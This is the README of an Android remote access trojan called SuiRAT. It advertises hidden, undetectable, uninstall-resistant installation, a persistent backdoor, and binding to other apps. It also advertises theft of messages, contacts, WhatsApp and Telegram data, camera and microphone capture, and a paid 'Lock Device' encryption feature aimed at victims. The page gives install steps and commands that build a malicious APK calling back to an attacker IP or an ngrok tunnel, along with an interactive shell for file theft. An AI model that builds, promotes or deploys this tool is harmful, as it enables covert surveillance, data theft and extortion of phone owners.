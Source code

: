 # SuiRAT<p align="center">
<img src="https://github.com/hax4us/haxRat/Logo/SuiRAT.png" height="60"><br>
SuiRAT is a client/server application developed in Java Android for the client side and the Server is in Python
</p>



## Features
- ✅ Fud Apk
- ✅ Anti Uninstall Android (4.4 to 10)
- ✅ Light Weight Apk Which Runs 24*7 in Background
- ✅ Full Persistent Backdoor 
- ✅ Invisible Icon On Install
- ✅ Real Time
- ✅ Receive Any File or Folder From Target Device
- ✅ Bind With Other Apps
- ✅ Fetch All Whatsapp Photo,Video
- ✅ Fetch All Ahatsapp Contacts
- ✅ Receive All Target Message
- ✅ Send Sms With Target Device To Any Number
- ✅ Recive All Target Contacts
- ✅ Fetch All Telegram Contacts
- ✅ Fetch All Telegram Docs,Image,VideosVideos
- ✅ Get Ip Address From Target Device
- ✅ Get MacAddress From Target Device
- ✅ Receive List of All Installedd Apps In Target Device
- ⏳ Delete Any File Or Folder From Target Device
- ⏳ Capture Main And Front Camera
- ⏳ Record Main And Front Camera
- ⏳ Capture Microphone
- ⏳ Receive last Clipboard Text



## TODO
- ~~Ngrok Support~~
- Add screenshot command
- Add Screen Mirroring
- Add WebPanel

## Installation
### For Termux Users
- `apt update -y`
- `apt upgrade -y`
- `apt install python -y`
- `apt install python2 -y`
- `apt install python3 -y`
- `apt install git -y`
- `apt install openjdk-17`
- `git clone https://github.com/alewana/SuiRat.git`
- `cd SuiRat`
- `pip install -r requirements.txt`

## Prerequisites
AndroRAT requires Python3 and JAVA (or Android Studio)

### For Linux/Nethunter
1. Install NodeJs `apt install nodejs`

2. Clone `git clone https://github.com/alewana/SuiRat.git`

3. Goto server directory `cd SuiRat`

4. Install Requirements `pip install -r requirements.txt`

##### SuiRAT will work on device from Android 4.1 (Jelly Bean) to Android 9.0 (Oreo) (API 16 to API 28)

> SuiRAT also works on Android 10 (Q) but some of the interpreter command will be unstable. 


After running the `shell` mode you will get an interpreter of the device  

Commands which can run on the interpreter
```
     deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a interactive shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    Dump Telegram [Premium] --> Dump Telegram Docs,Images,Video 
    getIP                      --> returns the ip of the device
    Dump Whatsapp [Premium]  -> Dump Whatsapp Database Massages
    getClipData                --> return the current saved text from the clipboard
    getMACAddress            --> returns the mac address of the device
    Lock Device  [Premium]   --> Lock Mobile with 256 bit Encryption
    Unlock Device.          --> Unlock Victim Mobile with 256 Decryption
    exit                       --> exit the SuiRat
```
In the sh shell there are some sub commands
```
    get [full_file_path]        --> donwloads the file to the local machine (file size upto 15mb)
    put [filename]              --> uploads the file to the android device
```

## Examples

* To build the apk using ngrok which will also set the listner:
```python3 androRAT.py --build --ngrok -o evil.apk```

* To build the apk using desired ip and port:
```python3 androRAT.py --build -i 192.169.x.x -p 8000 -o evil.apk```

* To get the interpreter:
```python3 androRAT.py --shell -i 0.0.0.0 -p 8000```


### Available Modes
* `--build` - for building the android apk 
* `--ngrok` - for using ngrok tunnel (over the internet)
* `--shell` - getting an interactive shell of the device

### `build` mode

```
Usage:
  python3 SuiRAT.py --build --ngrok [flags]
  Flags:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -o, --output            Name for the apk file (optional by default its set to "alewana.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

```
Usage:
  python3 SuiRAT.py --build [flags]
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

Or you can manually build the apk by importing [Android Code](Android_Code) folder to Android Studio and changing the IP address and port number in [config.java](Android_Code/app/src/main/java/com/example/reverseshell2/config.java) file and then you can generate the signed apk from `Android Studio -> Build -> Generate Signed APK(s)`
### `shell` mode
```
Usage:
  python3 SuiRAT.py --shell [flags]
  Flags:
    -i, --ip                Listner IP address
    -p, --port              Listner port number
```
After running the `shell` mode you will get an interpreter of the device  

## Thanks
 - Inspiration for the project and the basic building blocks for the Android App are based off [AndroRAT](https://github.com/karma9874/AndroRAT) 
 
## Contact Info

Telegram `@Alewana_dev

## Disclaimer
<b>I ( Ahtisham a.k.a AlewanaEzexer )  Provides no warranty with this software and will not be responsible for any direct or indirect damage caused due to the usage of this tool.<br>
SuiRAT is built for both Educational and Internal use ONLY.</b>
